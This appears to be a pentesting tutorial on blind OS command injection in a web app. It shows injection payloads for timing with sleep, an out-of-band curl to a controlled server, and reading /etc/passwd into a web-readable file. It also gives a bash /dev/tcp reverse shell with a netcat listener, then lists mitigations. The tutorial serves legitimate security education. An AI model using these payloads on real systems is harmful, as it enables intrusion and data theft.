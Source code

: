 ```yaml
---
title: Blind Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Blind Command Injection]
tags: [webapp, pentesting, Owasp, cmdi, os, command injection, blid command injection]     # TAG names should always be lowercase
---
```


# Blind Command Injection

***Blind Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS) but  does not return the output from the command within its HTTP response. Blind Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Detecting Blind Command Injection

In the below image, we can see that the web interface takes in ip address, and perform certain operation on the ip address. Since no output is returned, we may not know what is happening with our supplied input in the backend.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind1.png)

But we can get command execution if our supplied input is passed to a system shell without being sanitized, anyway , if we attempt to predict, we may write something like this `X [ip]` or `X [ip] X`, where X is our unknown command. By suppliying 127.0.0.1, it will be `X 127.0.0.1` or `X 127.0.0.1 X` 

## Time-Based

Time-Based is a technigue of delaying the response time of a target server by sending a command that will make the server to wait for a given time. Using `sleep`, We make the server to sleep (or wait) for a period of time before sending back a response, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;sleep 10;`, the command will be something like this `X 127.0.0.1;sleep 10;` or `X 127.0.0.1;sleep 10; X`, this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `sleep 10`, this will make the server to sleep for `10 seconds` if our supplied input is executed directly in a system shell.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind2.png)

From the above image no response is received, this means our supplied input is directly executed in a system shell thereby causing it to wait for `10 seconds`.

## Out-Of-Bound 

Out-Of-Bound is a technigue that allows you to force the target server into sending request to your controlled server. There are different ways to get this done, using `curl`, `ping`, `nslookup` and so on, By using `curl`, We can make the server to send an http request to our controlled server, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;curl http://controledhttpserver/;`, the command will be something like this `X 127.0.0.1;curl http://controledhttpserver/;` or `X 127.0.0.1;curl http://controledhttpserver/; X`,this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `curl http://controledhttpserver/`, if our supplied input is executed directly in a system shell, it will make the server to issue http request to our controlled server.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3.png)

*receiving http request*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3kali.png)

## Redirection To A File

We can also determine whether or not our supplied input is directly executed in a system shell by redirecting the output of the executed command to a file that can be accessible from web interface. By supplying this `127.0.0.1;uname -a > /var/www/cmd.txt;`, the command will be something like this `X 127.0.0.1;uname -a > /var/www/cmd.txt;` or `X 127.0.0.1;uname -a > /var/www/cmd.txt; X`,  if our supplied input is executed directly in a system shell, it will create a new cmd.txt file in the root of the server(/var/www/) and redirect the output of the executed command to the file `/var/www/cmd.txt`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5.png)

We can access the file by visiting it

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5res.png)

We can also read the content of a local file i.e `/etc/passwd` by supplyig this payload `127.0.0.1;cat /etc/passwd > /var/www/cmd.txt;`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6.png)

*content of /etc/passwd*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6res.png)

# Exploitation

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7.png)

*receiving reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7kali.png)


# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)


